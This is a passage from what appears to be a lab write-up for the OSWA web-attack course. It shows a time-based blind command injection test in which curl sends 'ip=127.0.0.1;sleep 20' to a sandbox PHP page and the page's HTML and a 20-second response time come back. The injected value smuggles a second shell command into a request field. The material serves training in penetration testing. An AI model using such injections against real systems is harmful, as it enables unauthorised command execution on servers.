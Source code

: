 According to the output, this took `.11s`. This time may vary between virtual environments.
Next, let's inject a twenty-second _sleep_ command to attempt to pause the request's execution. If the request pauses, we may have a blind injection vector.

```bash
┌──(root💀gobots)-[30Oct2024 22:22:50]-[/home/kali/SUT/OSWA]                                                                                           
└─# time curl "http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;sleep%2020" 
<html>
<head>
<link rel="stylesheet" href="../css/bootstrap.min.css">
<style type="text/css">
body{
  background-color: #121212;
}
.check{
  background-color: #1f1f1f;
  border-radius: 4px;
  padding-top: 34px;
  width: 600px;
  height: 150px;
  align-self: center;
  box-shadow: 5px 5px 5px #0f0f0f;
}
.online{
  color: #00ff4c;
}

.offline{
  color: #ff0000;
}

.noParam{
  color: #FFFFFF;
}

</style>
</head>
<body>


<center>
<div class="check" align="center">
        <pre>
        <h3 class='offline'>[ - ] Host is DOWN </h3>        </pre>
</div>
  <img src="logo.png"/>
</center>

</body>
</html>

real    20.11s
```
